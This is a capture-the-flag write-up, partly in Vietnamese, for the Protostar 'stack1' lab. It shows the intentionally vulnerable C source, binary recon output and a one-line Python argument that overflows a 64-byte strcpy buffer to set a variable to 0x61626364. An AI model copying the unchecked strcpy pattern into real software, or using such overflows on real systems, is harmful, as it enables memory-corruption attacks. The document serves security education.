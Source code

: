 # **stack1**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

New knowledge:
- 0

## Target
printf("you have correctly got the variable to the right value\n");

## Vulnerability
strcpy():  The strcpy() function does not specify the size of the destination array, so buffer overrun is often a risk. Using strcpy() function to copy a large character array into a smaller one is dangerous.

## Recon

```
┌──(kali㉿kali)-[~/Documents/week9/bin]
└─$ rabin2 -I ./stack1
arch     x86
baddr    0x8048000
binsz    23196
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (Debian 4.4.5-8) 4.4.5 GCC: (Debian 4.4.5-10) 4.4.5
crypto   false
endian   little <====================================================== focus here!
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
nx       false
os       linux
pic      false
relocs   true
relro    no
rpath    NONE
sanitize false
static   false
stripped false
subsys   linux
va       true
```

## Exploit
- Giống như stack0, ta lại phân tích stack:

<img src="pictures/stack.png">

=> Chỉ cần nhập 64 ký tự bất kỳ và string 'abcd' đảo ngược là xong:

```
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print('a'*64 + 'dcba')")
you have correctly got the variable to the right value
```

# References
- strcpy() function vulnerabilities: https://www.geeksforgeeks.org/why-strcpy-and-strncpy-are-not-safe-to-use/
